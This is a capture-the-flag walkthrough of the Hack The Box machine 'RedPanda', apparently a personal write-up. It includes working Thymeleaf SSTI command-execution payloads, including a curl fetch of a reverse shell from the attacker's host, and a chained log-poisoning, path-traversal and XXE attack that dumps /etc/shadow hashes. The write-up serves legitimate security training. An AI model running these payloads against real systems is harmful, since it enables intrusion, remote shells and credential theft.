







# RedPanda
## Enumeration
- `nmap`
```
└─$ nmap -p- -Pn 10.10.11.170 -T4               
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-29 19:41 BST
Nmap scan report for 10.10.11.170 (10.10.11.170)
Host is up (0.14s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

```
```
└─$ nmap -p22,8080 -sC -sV -Pn 10.10.11.170 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-29 19:50 BST
Nmap scan report for 10.10.11.170 (10.10.11.170)
Host is up (0.10s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy
|_http-title: Red Panda Search | Made with Spring Boot
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Content-Type: text/html;charset=UTF-8
|     Content-Language: en-US
|     Date: Tue, 29 Aug 2023 18:50:20 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en" dir="ltr">
|     <head>
|     <meta charset="utf-8">
|     <meta author="wooden_k">
|     <!--Codepen by khr2003: https://codepen.io/khr2003/pen/BGZdXw -->
|     <link rel="stylesheet" href="css/panda.css" type="text/css">
|     <link rel="stylesheet" href="css/main.css" type="text/css">
|     <title>Red Panda Search | Made with Spring Boot</title>
|     </head>
|     <body>
|     <div class='pande'>
|     <div class='ear left'></div>
|     <div class='ear right'></div>
|     <div class='whiskers left'>
|     <span></span>
|     <span></span>
|     <span></span>
|     </div>
|     <div class='whiskers right'>
|     <span></span>
|     <span></span>
|     <span></span>
|     </div>
|     <div class='face'>
|     <div class='eye
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET,HEAD,OPTIONS
|     Content-Length: 0
|     Date: Tue, 29 Aug 2023 18:50:20 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Tue, 29 Aug 2023 18:50:20 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94%I=7%D=8/29%Time=64EE3E10%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,690,"HTTP/1\.1\x20200\x20\r\nContent-Type:\x20text/html;charse
SF:t=UTF-8\r\nContent-Language:\x20en-US\r\nDate:\x20Tue,\x2029\x20Aug\x20
SF:2023\x2018:50:20\x20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20htm
SF:l>\n<html\x20lang=\"en\"\x20dir=\"ltr\">\n\x20\x20<head>\n\x20\x20\x20\
SF:x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20<meta\x20author=\"woode
SF:n_k\">\n\x20\x20\x20\x20<!--Codepen\x20by\x20khr2003:\x20https://codepe
SF:n\.io/khr2003/pen/BGZdXw\x20-->\n\x20\x20\x20\x20<link\x20rel=\"stylesh
SF:eet\"\x20href=\"css/panda\.css\"\x20type=\"text/css\">\n\x20\x20\x20\x2
SF:0<link\x20rel=\"stylesheet\"\x20href=\"css/main\.css\"\x20type=\"text/c
SF:ss\">\n\x20\x20\x20\x20<title>Red\x20Panda\x20Search\x20\|\x20Made\x20w
SF:ith\x20Spring\x20Boot</title>\n\x20\x20</head>\n\x20\x20<body>\n\n\x20\
SF:x20\x20\x20<div\x20class='pande'>\n\x20\x20\x20\x20\x20\x20<div\x20clas
SF:s='ear\x20left'></div>\n\x20\x20\x20\x20\x20\x20<div\x20class='ear\x20r
SF:ight'></div>\n\x20\x20\x20\x20\x20\x20<div\x20class='whiskers\x20left'>
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20</div>\n\x20\x20\x20\x
SF:20\x20\x20<div\x20class='whiskers\x20right'>\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<span></span>\n\x20\x20\x20\x20\x20\x20</
SF:div>\n\x20\x20\x20\x20\x20\x20<div\x20class='face'>\n\x20\x20\x20\x20\x
SF:20\x20\x20\x20<div\x20class='eye")%r(HTTPOptions,75,"HTTP/1\.1\x20200\x
SF:20\r\nAllow:\x20GET,HEAD,OPTIONS\r\nContent-Length:\x200\r\nDate:\x20Tu
SF:e,\x2029\x20Aug\x202023\x2018:50:20\x20GMT\r\nConnection:\x20close\r\n\
SF:r\n")%r(RTSPRequest,24E,"HTTP/1\.1\x20400\x20\r\nContent-Type:\x20text/
SF:html;charset=utf-8\r\nContent-Language:\x20en\r\nContent-Length:\x20435
SF:\r\nDate:\x20Tue,\x2029\x20Aug\x202023\x2018:50:20\x20GMT\r\nConnection
SF::\x20close\r\n\r\n<!doctype\x20html><html\x20lang=\"en\"><head><title>H
SF:TTP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</title><style\x2
SF:0type=\"text/css\">body\x20{font-family:Tahoma,Arial,sans-serif;}\x20h1
SF:,\x20h2,\x20h3,\x20b\x20{color:white;background-color:#525D76;}\x20h1\x
SF:20{font-size:22px;}\x20h2\x20{font-size:16px;}\x20h3\x20{font-size:14px
SF:;}\x20p\x20{font-size:12px;}\x20a\x20{color:black;}\x20\.line\x20{heigh
SF:t:1px;background-color:#525D76;border:none;}</style></head><body><h1>HT
SF:TP\x20Status\x20400\x20\xe2\x80\x93\x20Bad\x20Request</h1></body></html
SF:>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.35 seconds
```
- Web Server



- `gobuster`
```
└─$ gobuster dir -u http://10.10.11.170:8080 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.170:8080
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
2023/08/29 19:56:33 Starting gobuster in directory enumeration mode
===============================================================
/search               (Status: 405) [Size: 117]
/stats                (Status: 200) [Size: 987]
/error                (Status: 500) [Size: 86]

```

## Foothold/User
- Based from `nmap` results we know that it's `Spring` applicaton
  - If we try searching for anything, the server reflects our input
    - Which might indicate a `SSTI`
  - https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-framework-java



- Basic `SSTI` payloads don't work
  - So I tried the payloads that are specific for `Spring Boot` -> `Thymeleaf`
    - https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/
  - Like `#{7*7}` or `*{7*7}` and they work
    - We could've also detected banned chars via fuzzing
    - Because when I tried `${7*7}` it returned error with `banned characters`
    - `wfuzz -u http://10.10.11.170:8080/search -d name=FUZZ -w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt --ss banned`



- Let's test for `RCE`
  - `*{T(java.lang.Runtime).getRuntime().exec('ping -c 1 10.10.16.4')}`
  - And it works
 



- We can also try `*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}`


- Now we can get a reverse shell
  - `*{T(java.lang.Runtime).getRuntime().exec('curl 10.10.16.4/revshell -o /tmp/revshell')}`
  - `*{T(java.lang.Runtime).getRuntime().exec('bash /tmp/revshell')}`



## Root
- `woodenk` is in the `logs` group
```
woodenk@redpanda:/tmp/hsperfdata_woodenk$ id 
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)
```
- `/opt` has `cleanup.sh`
  - Maybe there is a `cronjob`
```
#!/bin/bash
/usr/bin/find /tmp -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /var/tmp -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /dev/shm -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /home/woodenk -name "*.xml" -exec rm -rf {} \;
/usr/bin/find /tmp -name "*.jpg" -exec rm -rf {} \;
/usr/bin/find /var/tmp -name "*.jpg" -exec rm -rf {} \;
/usr/bin/find /dev/shm -name "*.jpg" -exec rm -rf {} \;
/usr/bin/find /home/woodenk -name "*.jpg" -exec rm -rf {} \;
```

- `pspy` proves it
  - We also have `/root/run_credits.sh` which spawns `/opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar`



- If we check the files that `logs` group has ownership
```
woodenk@redpanda:/opt$ find / -group logs -ls 2>/dev/null | grep -v "proc"
    25119      4 -rw-rw-r--   1 root     logs            1 Aug 30 08:10 /opt/panda_search/redpanda.log
     6648   3032 -rwxrwxr-x   1 woodenk  logs      3104768 May 15 16:42 /tmp/pspy64
   115807      4 drwxr-xr-x   2 woodenk  logs         4096 Aug 29 18:33 /tmp/hsperfdata_woodenk
     6320     32 -rw-------   1 woodenk  logs        32768 Aug 30 08:10 /tmp/hsperfdata_woodenk/896
     6528      4 -rw-rw-r--   1 woodenk  logs           46 Aug 30 06:29 /tmp/revshell
   115809      4 drwx------   2 woodenk  logs         4096 Aug 29 18:33 /tmp/tomcat-docbase.8080.13551723992384889321
   115808      4 drwx------   3 woodenk  logs         4096 Aug 29 18:33 /tmp/tomcat.8080.16489219993646231839
   115810      4 drwxrwxr-x   3 woodenk  logs         4096 Aug 29 18:33 /tmp/tomcat.8080.16489219993646231839/work
   115811      4 drwxrwxr-x   3 woodenk  logs         4096 Aug 29 18:33 /tmp/tomcat.8080.16489219993646231839/work/Tomcat
   115812      4 drwxrwxr-x   3 woodenk  logs         4096 Aug 29 18:33 /tmp/tomcat.8080.16489219993646231839/work/Tomcat/localhost
   115813      4 drwxrwxr-x   2 woodenk  logs         4096 Aug 29 18:33 /tmp/tomcat.8080.16489219993646231839/work/Tomcat/localhost/ROOT
    81946      4 drw-r-x---   2 root     logs         4096 Jun 21  2022 /credits
    22780      4 -rw-r-----   1 root     logs          422 Jun 21  2022 /credits/damian_creds.xml
    22800      4 -rw-r-----   1 root     logs          426 Jun 21  2022 /credits/woodenk_creds.xml
    24990      4 drwxrwxr-x   3 woodenk  logs         4096 Jun 14  2022 /home/woodenk/.m2/wrapper
    25292      4 drwxrwxr-x   3 woodenk  logs         4096 Jun 14  2022 /home/woodenk/.m2/wrapper/dists

...
```
- The file is used in 2 applications: `panda_search` and `credit-score`
```
woodenk@redpanda:/opt$ grep -irn "redpanda.log" .
Binary file ./panda_search/target/classes/com/panda_search/htb/panda_search/RequestInterceptor.class matches
./panda_search/src/main/java/com/panda_search/htb/panda_search/RequestInterceptor.java:34:        FileWriter fw = new FileWriter("/opt/panda_search/redpanda.log", true);
Binary file ./credit-score/LogParser/final/target/classes/com/logparser/App.class matches
./credit-score/LogParser/final/src/main/java/com/logparser/App.java:91:        File log_fd = new File("/opt/panda_search/redpanda.log");

```

- `/opt/panda_search/src/main/java/com/panda_search/htb/panda_search/RequestInterceptor.java`
  - It records logs to the file in the following format: `200||10.10.16.4||Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0||/search`
```
package com.panda_search.htb.panda_search;

import org.springframework.web.servlet.handler.HandlerInterceptorAdapter;

import javax.servlet.http.HttpServletResponse;

import java.io.BufferedWriter;
import java.io.FileWriter;

import javax.servlet.http.HttpServletRequest;

import org.apache.catalina.User;
import org.springframework.web.servlet.ModelAndView;

public class RequestInterceptor extends HandlerInterceptorAdapter {
    @Override
    public boolean preHandle (HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        System.out.println("interceptor#preHandle called. Thread: " + Thread.currentThread().getName());
        return true;
    }

    @Override
    public void afterCompletion (HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws Exception {
        System.out.println("interceptor#postHandle called. Thread: " + Thread.currentThread().getName());
        String UserAgent = request.getHeader("User-Agent");
        String remoteAddr = request.getRemoteAddr();
        String requestUri = request.getRequestURI();
        Integer responseCode = response.getStatus();
        /*System.out.println("User agent: " + UserAgent);
        System.out.println("IP: " + remoteAddr);
        System.out.println("Uri: " + requestUri);
        System.out.println("Response code: " + responseCode.toString());*/
        System.out.println("LOG: " + responseCode.toString() + "||" + remoteAddr + "||" + UserAgent + "||" + requestUri);
        FileWriter fw = new FileWriter("/opt/panda_search/redpanda.log", true);
        BufferedWriter bw = new BufferedWriter(fw);
        bw.write(responseCode.toString() + "||" + remoteAddr + "||" + UserAgent + "||" + requestUri + "\n");
        bw.close();
    }
}

```

- `/opt/credit-score/LogParser/final/src/main/java/com/logparser/App.java`
  - Checks `redpanda.log` file -> `main()` function
    - Goes line by line and checks if it's an image (ends with `.jpg` -> function `isImage()`
    - Then checks if the image file exists and checks it's metadata, the artist's name
    - Uses artist's name to generate path to `xml` file (`<artist's name>_creds.xml`)
    - Then adds view count for that image and saves it
```
package com.logparser;
import java.io.BufferedWriter;
import java.io.File;
import java.io.FileWriter;
import java.io.IOException;
import java.util.HashMap;
import java.util.Map;
import java.util.Scanner;

import com.drew.imaging.jpeg.JpegMetadataReader;
import com.drew.imaging.jpeg.JpegProcessingException;
import com.drew.metadata.Directory;
import com.drew.metadata.Metadata;
import com.drew.metadata.Tag;

import org.jdom2.JDOMException;
import org.jdom2.input.SAXBuilder;
import org.jdom2.output.Format;
import org.jdom2.output.XMLOutputter;
import org.jdom2.*;

public class App {
    public static Map parseLog(String line) {
        String[] strings = line.split("\\|\\|");
        Map map = new HashMap<>();
        map.put("status_code", Integer.parseInt(strings[0]));
        map.put("ip", strings[1]);
        map.put("user_agent", strings[2]);
        map.put("uri", strings[3]);
        

        return map;
    }
    public static boolean isImage(String filename){
        if(filename.contains(".jpg"))
        {
            return true;
        }
        return false;
    }
    public static String getArtist(String uri) throws IOException, JpegProcessingException
    {
        String fullpath = "/opt/panda_search/src/main/resources/static" + uri;
        File jpgFile = new File(fullpath);
        Metadata metadata = JpegMetadataReader.readMetadata(jpgFile);
        for(Directory dir : metadata.getDirectories())
        {
            for(Tag tag : dir.getTags())
            {
                if(tag.getTagName() == "Artist")
                {
                    return tag.getDescription();
                }
            }
        }

        return "N/A";
    }
    public static void addViewTo(String path, String uri) throws JDOMException, IOException
    {
        SAXBuilder saxBuilder = new SAXBuilder();
        XMLOutputter xmlOutput = new XMLOutputter();
        xmlOutput.setFormat(Format.getPrettyFormat());

        File fd = new File(path);
        
        Document doc = saxBuilder.build(fd);
        
        Element rootElement = doc.getRootElement();
 
        for(Element el: rootElement.getChildren())
        {
    
            
            if(el.getName() == "image")
            {
                if(el.getChild("uri").getText().equals(uri))
                {
                    Integer totalviews = Integer.parseInt(rootElement.getChild("totalviews").getText()) + 1;
                    System.out.println("Total views:" + Integer.toString(totalviews));
                    rootElement.getChild("totalviews").setText(Integer.toString(totalviews));
                    Integer views = Integer.parseInt(el.getChild("views").getText());
                    el.getChild("views").setText(Integer.toString(views + 1));
                }
            }
        }
        BufferedWriter writer = new BufferedWriter(new FileWriter(fd));
        xmlOutput.output(doc, writer);
    }
    public static void main(String[] args) throws JDOMException, IOException, JpegProcessingException {
        File log_fd = new File("/opt/panda_search/redpanda.log");
        Scanner log_reader = new Scanner(log_fd);
        while(log_reader.hasNextLine())
        {
            String line = log_reader.nextLine();
            if(!isImage(line))
            {
                continue;
            }
            Map parsed_data = parseLog(line);
            System.out.println(parsed_data.get("uri"));
            String artist = getArtist(parsed_data.get("uri").toString());
            System.out.println("Artist: " + artist);
            String xmlPath = "/credits/" + artist + "_creds.xml";
            addViewTo(xmlPath, parsed_data.get("uri").toString());
        }

    }
}

```

- Okay, this was place where I got stuck
  - I knew we had something to do with the file read using `xml`
  - But I had no idea how to do it
- We need to inject our file to `addViewTo` function, so we need to bypass several checks
  - So we have to craft several files
    - `jpg` file with controlled artist name
      - `getArtist()` -> `String fullpath = "/opt/panda_search/src/main/resources/static" + uri;`
    - malicious `xml` file
      - `main` -> `String xmlPath = "/credits/" + artist + "_creds.xml";`

### Step 1
- Create `xml` file
  - We can download existing `xml` and modify it
    - Payloads from [Hacktricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity) should work
  - I will name it `xxe_creds.xml`
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "/etc/shadow"> ]>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <views>0</views>
    <foo>&xxe;</foo>
  </image>
  <image>
    <uri>/img/hungy.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smooch.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smiley.jpg</uri>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```

### Step 2
- Create `jpg` file and set `Artist` tag to path where `xml` will be located
- For example `../tmp/evil`
  - So when it gets parsed by `String xmlPath = "/credits/" + artist + "_creds.xml";`, it will point to our evil `xml`
    - Since the code just concats the strings
  - We can use `exiftool` for that`
    - `exiftool -Artist="../tmp/xxe" xxe.jpg`
```
└─$ exiftool -Artist="../tmp/xxe" xxe.jpg
Warning: [minor] Ignored empty rdf:Bag list for Iptc4xmpExt:LocationCreated - xxe.jpg
    1 image files updated
```
```
└─$ exiftool xxe.jpg | grep Artist
Artist                          : ../tmp/xxe
```
### Step 3
- Now we need to upload both files 
  - I'll uploaded them to `/tmp`
```
woodenk@redpanda:/tmp$ wget 10.10.16.4/xxe.jpg
--2023-08-30 08:55:08--  http://10.10.16.4/xxe.jpg
Connecting to 10.10.16.4:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 102762 (100K) [image/jpeg]
Saving to: ‘xxe.jpg’

xxe.jpg                                                    100%[========================================================================================================================================>] 100.35K   201KB/s    in 0.5s    

2023-08-30 08:55:09 (201 KB/s) - ‘xxe.jpg’ saved [102762/102762]

woodenk@redpanda:/tmp$ wget 10.10.16.4/xxe_creds.xml
--2023-08-30 08:55:13--  http://10.10.16.4/xxe_creds.xml
Connecting to 10.10.16.4:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 502 [application/xml]
Saving to: ‘xxe_creds.xml’

xxe_creds.xml                                              100%[========================================================================================================================================>]     502  --.-KB/s    in 0.001s  

2023-08-30 08:55:14 (573 KB/s) - ‘xxe_creds.xml’ saved [502/502]

```
- Now we need to poison the `redpanda.log`, since we can write to it
  - We need to satisfy the format
  - `200||IP||UA||/../../../../../../tmp/xxe.jpg`
  - Since `getArtist()` -> `String fullpath = "/opt/panda_search/src/main/resources/static" + uri;` just concants the name of the image
    - In the end `/opt/panda_search/src/main/resources/static/../../../../../../tmp/xxe.jpg` becomes `/tmp/xxe.jpg`
```
woodenk@redpanda:/opt/panda_search$ echo "200||IP||UA||/../../../../../../tmp/xxe.jpg" >> redpanda.log 
```
- After the next cronjob we should see the results in `/tmp/xxe_creds.xml`
```
woodenk@redpanda:/opt/panda_search$ cat /tmp/xxe_creds.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/img/greg.jpg</uri>
    <views>0</views>
    <foo>root:$6$HYdGmG45Ye119KMJ$XKsSsbWxGmfYk38VaKlJkaLomoPUzkL/l4XNJN3PuXYAYebnSz628ii4VLWfEuPShcAEpQRjhl.vi0MrJAC8x0:19157:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
sys:*:18375:0:99999:7:::
sync:*:18375:0:99999:7:::
games:*:18375:0:99999:7:::
man:*:18375:0:99999:7:::
lp:*:18375:0:99999:7:::
mail:*:18375:0:99999:7:::
news:*:18375:0:99999:7:::
uucp:*:18375:0:99999:7:::
proxy:*:18375:0:99999:7:::
www-data:*:18375:0:99999:7:::
backup:*:18375:0:99999:7:::
list:*:18375:0:99999:7:::
irc:*:18375:0:99999:7:::
gnats:*:18375:0:99999:7:::
nobody:*:18375:0:99999:7:::
systemd-network:*:18375:0:99999:7:::
systemd-resolve:*:18375:0:99999:7:::
systemd-timesync:*:18375:0:99999:7:::
messagebus:*:18375:0:99999:7:::
syslog:*:18375:0:99999:7:::
_apt:*:18375:0:99999:7:::
tss:*:18375:0:99999:7:::
uuidd:*:18375:0:99999:7:::
tcpdump:*:18375:0:99999:7:::
landscape:*:18375:0:99999:7:::
pollinate:*:18375:0:99999:7:::
sshd:*:18389:0:99999:7:::
systemd-coredump:!!:18389::::::
lxd:!:18389::::::
usbmux:*:18822:0:99999:7:::
woodenk:$6$48BoRAl2LvBK8Zth$vpJzroFTUyQRA/UQKu64uzNF6L7pceYAe.B14kmSgvKCvjTm6Iu/hSEZTTT8EFbGKNIbT3e2ox3qqK/MJRJIJ1:19157:0:99999:7:::
mysql:!:19157:0:99999:7:::</foo>
  </image>
  <image>
    <uri>/img/hungy.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smooch.jpg</uri>
    <views>0</views>
  </image>
  <image>
    <uri>/img/smiley.jpg</uri>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```
- It worked, now we can either crack or check if there is a `ssh` key in `root` 
  - And there is a `ssh` key
  - So we just need to modify evil `xml` and poison log again
  - And we're `root`




